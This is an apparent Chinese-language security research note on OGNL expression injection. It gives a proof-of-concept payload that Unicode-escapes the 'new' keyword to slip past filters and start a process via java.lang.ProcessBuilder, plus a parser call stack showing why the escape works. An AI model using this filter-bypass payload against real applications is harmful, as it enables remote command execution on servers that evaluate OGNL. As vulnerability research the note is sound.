 
例子(OGNL v2.6.9)：

一番踩坑后构造出以下 poc

```
# new 关键字 Unicode编码后得到 \u006e\u0065\u0077
(\u006e\u0065\u0077 java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).start()
```

测试效果

![image-20221002200044117](./img/image-20221002200044117.png)



```
Q: 为什么会支持 Unicode? 是否还支持其他编码或特性？
A: 先贴上调用栈，这里就不占篇幅再详述了，留到OGNL的专项篇来学习
```

```java
readChar:249, JavaCharStream (ognl)
BeginToken:184, JavaCharStream (ognl)
getNextToken:1471, OgnlParserTokenManager (ognl)
jj_ntk:3078, OgnlParser (ognl)
unaryExpression:1080, OgnlParser (ognl)
multiplicativeExpression:972, OgnlParser (ognl)
additiveExpression:895, OgnlParser (ognl)
shiftExpression:751, OgnlParser (ognl)
relationalExpression:509, OgnlParser (ognl)
equalityExpression:406, OgnlParser (ognl)
andExpression:353, OgnlParser (ognl)
exclusiveOrExpression:300, OgnlParser (ognl)
inclusiveOrExpression:247, OgnlParser (ognl)
logicalAndExpression:194, OgnlParser (ognl)
logicalOrExpression:141, OgnlParser (ognl)
conditionalTestExpression:102, OgnlParser (ognl)
assignmentExpression:65, OgnlParser (ognl)
expression:24, OgnlParser (ognl)
topLevelExpression:16, OgnlParser (ognl)
parseExpression:113, Ognl (ognl)
getValue:454, Ognl (ognl)
getValue:433, Ognl (ognl)
main:12, OGNLTrigger (com.demo)
```

